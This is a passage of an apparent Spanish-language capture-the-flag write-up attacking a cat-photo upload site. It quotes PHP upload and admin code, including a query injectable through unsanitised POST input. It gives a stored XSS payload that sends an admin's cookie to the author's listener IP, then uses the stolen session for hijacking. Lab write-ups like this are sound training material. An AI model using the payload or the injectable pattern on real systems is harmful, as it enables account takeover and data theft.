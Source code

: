 ```php
            $error_message = "Error: The file is not an image.";
            $uploadOk = 0;
        }

        // Check if the file already exists
        if (file_exists($target_file)) {
            $error_message = "Error: The file already exists.";
            $uploadOk = 0;
        }

        // Check file size
        if ($_FILES["cat_photo"]["size"] > 500000) {
            $error_message = "Error: The file is too large.";
            $uploadOk = 0;
        }

        // Allow only certain file formats
        if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
            $error_message = "Error: Only JPG, JPEG, and PNG files are allowed.";
            $uploadOk = 0;
        }
```
No podiamos encontrar nuestra imagen en uploads/ ya que se genera un uniqid() seguido de " _ "  


## Exploit
Primero nos registramos con un XSS que mande la cookie de axel a nuestro servidor 
```bash
<script>document.location='http://10.10.14.232:2323/?c='+document.cookie;</script>
```
![[Pasted image 20250207131614.png]]


Acto seguido abrimos un servidor http por el puerto indicado en XSS y subimos un gato, cuando el admin lo revise y muestre nuestro "username" se triggerea el XSS mandandonos su cookie;
![[Pasted image 20250207131820.png]]

Ahora que tenemos el phpssid de axel probamos a hacer un session Hijacking modificando nuestra cookie

Admin Panel:
![[Pasted image 20250207132842.png]]


Ahora vamos a explotar la injeccion sql en accept_cat.php

Recordemos el codigo

```php
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

```